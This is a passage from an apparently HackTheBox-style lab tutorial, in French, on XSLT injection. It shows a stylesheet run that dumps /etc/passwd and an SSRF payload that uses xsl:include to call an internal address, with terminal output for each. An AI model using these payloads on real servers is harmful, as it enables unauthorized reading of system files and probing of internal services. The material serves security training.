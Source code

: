 #### Transformation par le terminal

  Transformation par le terminal

```
dsgsec@htb[/htb]$ saxonb-xslt -xsl:readfile.xsl catalogue.xml

Warning: at xsl:stylesheet on line 1 column 111 of readfile.xsl:
  Running an XSLT 1.0 stylesheet with an XSLT 2.0 processor
<?xml version="1.0" encoding="UTF-8"?>root:x:0:0:root:/root:/usr/bin/zsh
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
<SNIP>

```

-   `xsl:include`peut être utilisé pour effectuer SSRF

Nous pouvons également monter des attaques SSRF si nous contrôlons la transformation.

#### ssrf.xsl

Code : xml

```
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:abc="http://php.net/xsl" version="1.0">
<xsl:include href="http://127.0.0.1:5000/xslt"/>
<xsl:template match="/">
</xsl:template>
</xsl:stylesheet>

```

#### Transformation par le terminal

  Transformation par le terminal

```
dsgsec@htb[/htb]$ saxonb-xslt -xsl:ssrf.xsl catalogue.xml

Warning: at xsl:stylesheet on line 1 column 111 of ssrf.xsl:
  Running an XSLT 1.0 stylesheet with an XSLT 2.0 processor
Error at xsl:include on line 2 column 49 of ssrf.xsl:
  XTSE0165: java.io.FileNotFoundException: http://127.0.0.1:5000/xslt
Failed to compile stylesheet. 1 error detected.

```
